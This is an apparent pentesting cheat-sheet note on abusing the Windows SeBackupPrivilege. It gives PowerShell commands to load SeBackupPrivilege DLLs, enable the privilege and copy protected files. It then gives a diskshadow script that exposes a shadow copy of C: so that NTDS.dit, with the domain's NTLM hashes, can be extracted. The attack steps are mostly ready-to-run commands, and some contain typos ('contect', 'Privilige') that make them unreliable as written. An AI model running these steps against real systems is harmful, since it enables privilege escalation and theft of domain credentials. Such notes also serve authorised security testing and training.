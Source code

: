 ## Backup Operators 
### [SeBackup Privilege]([https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges))
Allows to traverse any folder and list contents and copy a file from a folder even with no ACE. 
Need to copy the data specifying the [FILE_FLAG_BACKUP_SEMANTICS](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)

#### Exploiting privilege 
https://github.com/giuliano108/SeBackupPrivilege
Import the Libraries:
```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
Turn on the privileges 
```shell
whoami /priv
```

```powershell
Get-SeBackupPrivilige
Set-SeBackupPrivilege
```
Copy a protected file 
```powershell
Copy-FileSeBackupPrivilege '<path to file>' .\<filename>.txt
```
Read the file using [diskshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) to attack a domain controller with NTDS.dit
Contains all the NTLM hashes for all users in the domain.
Use diskshadow utility to create a copy of the C drive and expose it in the E drive
```cmd
diskshadow.exe

set verbose on

set metadata

set context clientaccesible

set contect persistent

begin backup

add volume C: alias cdrive

create

expose %cdrive% E:

end backup

exit

dir E:	
```
